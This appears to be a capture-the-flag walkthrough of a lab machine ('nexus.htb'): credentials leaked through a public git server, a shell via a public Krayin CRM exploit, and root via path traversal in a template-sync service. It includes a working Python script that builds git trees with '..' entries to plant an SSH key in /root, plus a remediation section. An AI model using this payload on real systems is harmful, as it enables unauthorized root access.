## User Flag
- Always start with a port scan:
    - 
- Let's add the ip to `/etc/hosts` and visit to see whats there, also do some enumeration on the directories of this website:
    - 
- Nothing useful seems to appear
- Let's change the parameters of the fuzzing to do vhost enumeration:
    - 
- We see some useful info:
    - Let's visit both these pages, we see that there is a login portal at `billing.nexus.htb`, and a major faliure that they did is that they allowed everyone to access `git.nexus.htb`, this literally let us peeked inside the `.env` file and its history and we see that in one of its versions:
        - 
- A password is there, so we want to try this at the login portal, but we don't have the email now, and trying the email from the `.env` does not work. So we head back to the website and we see the HR:
    - 
- Trying this allowed us to enter, and by basic enumeration we see:
    - 
- Let's google for `Krayin V 2.2.0 CVEs` and we find this `https://github.com/pawpic/CVE-2026-38526-POC`
- Let's clone this and run as follows: (Note that we need to use single quotes to quote the pwd because there is !! inside, so "" breaks)
    - 
- We are in, and from some instinct and previous steps we know that there must be an `.env` file lying somewhere, so we do `find / -name ".env" 2>/dev/null` and `cat` it.
    - 
- This is what we need, now we just need the username because `krayin` does not work here.
- We can try by just visiting `/etc/passwd` for the users (note that in newer versions of /passwd it does not store passwords, they are in /etc/shadow)
    - 
- Let's just try everything that looks like a name here and see that `Jones` is the user!

## Root Flag
- 
  <span class="caption">`systemctl list-timers` shows a custom `gitea-template-sync.timer` that fires every minute. A job that runs this often is a classic privilege-escalation lead.</span>
- See that there is a git template sync service 
    - 
- I tried to modify the `.service`, or the python file itself but it seems all unwritable
- So im pretty stuck (after checking writeups) -> what we actually need to do is look inside the python file and see that
    - 
- `os.path.join` is used without sanitization, so we might can do a path traversal attack 
- Let's first login to gitea with the jones account and create a repo called `rce`, and remember to use template s.t. the sync will sync in this malicious repo
- Outside of the repo, write this script
```python
# build.py
#!/usr/bin/env python3
import hashlib,zlib,os,subprocess,sys,time
def write_obj(data,t):
	h=("%s %d"%(t,len(data))).encode()+b"\x00"
	s=h+data
	sha=hashlib.sha1(s).hexdigest()
	d=os.path.join(".git","objects",sha[:2])
	os.makedirs(d,exist_ok=True)
	p=os.path.join(d,sha[2:])
	if not os.path.exists(p):
		open(p,"wb").write(zlib.compress(s))
	return sha
def entry(mode,name,sha):
	return("%s %s"%(mode,name)).encode()+b"\x00"+bytes.fromhex(sha)
if not os.path.isdir(".git"):
	print("Run inside git repo");sys.exit(1)
r=subprocess.run(["cat","/tmp/.k.pub"],capture_output=True,text=True)
if r.returncode!=0:
    print("ssh-keygen -t ed25519 -f /tmp/.k -N ''");sys.exit(1)
key=r.stdout.strip()+"\n"
blob=write_obj(key.encode(),"blob")
readme=write_obj(b"# Template\n","blob")
ssh_t=write_obj(entry("100644","authorized_keys",blob),"tree")
cur=write_obj(entry("40000",".ssh",ssh_t),"tree")
fir=write_obj(entry("40000","root",cur),"tree")
for i in range(4):
	fir=write_obj(entry("40000","..",fir),"tree")
root=write_obj(entry("100644","README.md",readme)+entry("40000","..",fir),"tree")
ts=int(time.time())
c="tree %s\nauthor x <x@x> %d +0000\ncommitter x <x@x> %d +0000\n\ninit\n"%(root,ts,ts)
sha=write_obj(c.encode(),"commit")
os.makedirs(os.path.join(".git","refs","heads"),exist_ok=True)
open(os.path.join(".git","refs","heads","main"),"w").write(sha+"\n")
print("Done: "+sha)
```
- I really do not get the syntax but we use the following script ( build.py ) to construct the traversal payload:
The script creates a git tree structure where the file path resolves to
../../../../../root/.ssh/authorized_keys . The loop creates 4 levels of .. trees, and the root tree
adds a 5th .. entry, giving us exactly 3 traversal levels to escape from /home/git/template-
staging/jones/rce/ up to /root/
- Then we just run this, and then `git push -u origin main --force`, wait for 1 min and we see that in the logs it has been accepted
- 
- We can now login as root with the ssh key

## Remediation

- **Don't expose the git server to everyone.** `git.nexus.htb` let anyone browse the repo and its history, where `.env` (with a password) was committed. Require authentication on the git host, and treat any secret that was ever committed as compromised — rotate it and purge it from history.
- **Patch Krayin CRM.** The shell was [CVE-2026-38526](https://github.com/pawpic/CVE-2026-38526-POC) — upgrade past 2.2.0.
- **Keep secrets out of `.env` on disk / web paths.** A second `.env` readable from the shell gave the pivot to `jones`. Load secrets from the environment or a vault with tight permissions.
- **Fix the template-sync path traversal.** Root came from the sync service calling `os.path.join(dest, name)` on attacker-controlled git tree entries (`..` components), writing an `authorized_keys` into `/root`. Reject path components containing `..` or absolute paths, resolve the final path and verify it stays within the destination (`os.path.realpath` + prefix check), and don't run the sync as root.

### References

- [CVE-2026-38526 — Krayin CRM RCE PoC](https://github.com/pawpic/CVE-2026-38526-POC)
- [OWASP — Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal)
- [CWE-22 — improper limitation of a pathname](https://cwe.mitre.org/data/definitions/22.html)
